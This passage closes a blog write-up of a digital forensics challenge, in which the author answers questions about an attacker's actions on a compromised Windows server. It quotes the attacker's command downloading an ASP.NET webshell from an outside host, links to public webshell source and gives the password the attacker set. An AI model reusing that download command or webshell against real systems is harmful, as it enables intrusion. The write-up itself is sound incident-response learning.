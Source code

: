 It looks like the attacker used `wget` to retrieve the webshell. The answer to #13 is `wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx`.

Next, we need to find the string within the title header of the deployed webshell. The output of the previous command contained some HTML, which might be related to the request for the webshell.

![html](/images/iliketo/html.png)

We can use the `grep` options `-A` and `-B` to get the lines before and after, like so

![title](/images/iliketo/title.png)

So the answer to #14 is "awen asp.net webshell". A quick google search for "awen webshell" gives [this](https://github.com/SecWiki/WebShell-2/blob/master/Aspx/awen%20asp.net%20webshell.aspx) result, so this answer makes sense.

The final question asks what the attacker changed the service account's password to. The attacker likely used the `net user` command to do this, so let's search for that.

![newpass](/images/iliketo/newpass.png)

So, the answer to the final question is "5trongP4ssw0rd".

Whew! That was a lot of learning for me, but it was a great experience to become more familiar with the DFIR process. I also learned quite a bit about Powershell, though it was nice to use the bash commands that I'm more familiar with for the last few questions.

Hope you enjoyed,

Dakota Vickers